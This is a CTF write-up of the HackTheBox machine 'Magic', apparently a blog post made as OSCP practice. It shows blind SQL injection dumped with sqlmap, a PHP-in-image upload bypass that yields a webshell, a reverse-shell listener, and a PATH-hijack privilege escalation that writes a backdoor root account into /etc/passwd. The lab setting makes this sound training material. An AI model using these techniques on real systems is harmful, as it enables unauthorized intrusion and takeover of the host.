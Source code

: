 ```yaml
---
title: "HTB: Magic Write-up"
date: 2021-05-12 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


I decided to go back to Linux for my next challenge box from TJNull's [list of OSCP-like HackTheBox machines][htb-list]. This is also the first box from the list that HTB ranked "Medium" so it should bring a nice challenge.

## Phase 1: Enumeration

Step 1: Kick off [AutoRecon][autorecon]

```bash
autorecon -o magic --single-target 10.10.10.185 
```

From the quick `nmap` scan I can see that we have SSH and HTTP open.

```txt
[*] Found ssh on tcp/22 on target 10.10.10.185
[*] Found http on tcp/80 on target 10.10.10.185
```

I want to start testing on the web-server, but whenever I test a boot2root box I always do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys].

```bash
cd ~/tools/ssh-badkeys
grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6" .
```

No bad keys here, so its time to look at the web server. `autorecon` will kick off some directory enumeration for us, but I always like to use a few different wordlists for better coverage. I'm going to kick off a `ffuf` scan to run while I review the `autorecon` output.

```bash
ffuf -u http://10.10.10.185/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -e .php,.html,.txt -of csv -o raft-large.csv
```

This run ended up identifying the same endpoints that the `autorecon` GoBuster run identified. The interesting ones were:

```txt
/login.php            (Status: 200) [Size: 4221]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
```

File upload functionality is usually ripe for exploitation because it is such a tricky thing to get right. Judging by the redirect, it looks like I have to be logged in to access it though, so lets take a look at the /login.php endpoint.

If I submit a normal request with an invalid login, I get an alert pop-up letting us know we submitted invalid credentials.

![](/assets/images/HTB/magic/login-reg.png)

However, if I submit an apostrophe in that the password field then I can see that the alert pop-up is gone.

![](/assets/images/HTB/magic/login-sqli.png)

This is clearly SQL injection, but I wasn't able to get any data back in-band from the host. I tried for about 30 minutes to exploit this SQLi manually, but after a bit of testing I confirmed my suspicions that this was a blind SQLi.

## Phase 2: Exploitation

Now that I know this is vulnerable to a blind SQL injection, I am going to use `sqlmap` to help me automate the table dumping process (because I can't be bothered to exploit blind SQLi manually). I'm using 8 threads to speed up the process.

```bash
sqlmap -r login.txt --dbms=mysql --threads=8 --batch -D Magic -T login --dump
```

```txt
Database: Magic
Table: login
[1 entry]
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
| 1  | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
```

Looks like I have some creds to try, and if I submit these through the web portal we can get access to the file upload functionality!

![](/assets/images/HTB/magic/auth.png)

This file upload was tricky to bypass, and took me some time to exploit. The usual tricks of using a `%00` in the filename, changing the MIME type, and using double extensions (.png.php) didn't work. I learned a useful methodology for testing file uploads from this box. First, proxy a file upload request and send it to repeater. Send it again in Repeater to make sure you can establish a baseline, then start testing some of the common checks against file uploads. For instance:

- Double extensions (with and without Null Byte)
- Changing MIME type or Magic bytes
- Embedding server-side code within an image
- Content-Type field

For this box the solution was to embed server-side code (in this case PHP) into an image and use a double extension (such as .php.jpg) to trick the application into rendering the page as PHP. The reason this worked is because the application was looking for image-specific magic byte strings at the beginning of uploaded files for it to pass its allowlisting.

![](/assets/images/HTB/magic/file-upload.png)

If I go back to the main page of the application, I can see a request for the <http://10.10.10.185/images/uploads/exploit.php.jpg> endpoint show up in the proxy history. Browsing to this page and supplying the `cmd` parameter results in command execution showing up in the application response.

![](/assets/images/HTB/magic/webshell.png)

From here I used `which` to determine what tools I had accessible in `www-data`'s PATH, which fortunately included `bash`. A simple `bash` reverse shell got me a remote access on the host.

```bash
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.185] 35354
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

## Phase 3: Privilege Escalation

Now that I have a shell on the box, the next step is to escalate privileges. A quick `cat /etc/passwd` shows that there is one non-standard user on this host

```txt
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```

Seems like this theseus is also a user on this machine... what are the odds he uses the same password from the web application.

```txt
www-data@ubuntu:/tmp$ su theseus
Password:
theseus@ubuntu:/tmp$
```

Sweet! Now that I have access to the user account, it is time to move onto getting root privileges. When I ran [linpeas][linpeas] something new stood out to me, there was a new SUID binary that I hadn't encountered before.

```txt
-rwsr-x--- 1 root    users            22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
----------------------------------------------------------------------------------------
  --- Trying to execute /bin/sysinfo with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/lib/x86_64-linux-gnu/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, fdisk: cannot open /dev/loop0: Permission denied
```

AutoRecon had run `strace` on the binary to see what files it was opening, but that only revealed that it was trying to load some libraries from `/etc` that didn't exist. I ran `ltrace` on the binary to get some more information about what files and commands it may be using, specifically looking for the `popen()` function to look for command calls it may make.

```bash
theseus@ubuntu:/tmp$ ltrace sysinfo
...
popen("fdisk -l", "r")
```

This call is interesting because the program doesn't specify the full path of the `fdisk` binary that it calls. This means that I can place an arbitrary `fdisk` executable file somewhere in the PATH before the intended `fdisk` executable, and have my file execute as root instead. My go-to for boot2root files is adding a backdoor root user with the password "secret".

```bash
theseus@ubuntu:/tmp$ echo -e '#!/bin/bash
echo "root2:YcH.cwcRpCZW2:0:0:root:/root:/bin/bash" >> /etc/passwd' > fdisk
theseus@ubuntu:/tmp$ chmod +x fdisk
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
```

We have placed our backdoor `fdisk` in `/tmp` and moved `/tmp` up to the front of our path, so all that is left to do is to execute `sysinfo` and see if it worked.

```bash
theseus@ubuntu:/tmp$ sysinfo
...
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
root2:YcH.cwcRpCZW2:0:0:root:/root:/bin/bash
```

Looks like it worked! Time to `su` into root and collect the flag.

```bash
theseus@ubuntu:/tmp$ su root2
Password:
root@ubuntu:/tmp# whoami
root
```

Overall this was a really interesting box. I learned a new way to bypass restrictive file upload filters, and a new strategy for exploiting unique SUID binaries. Thanks for reading!

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
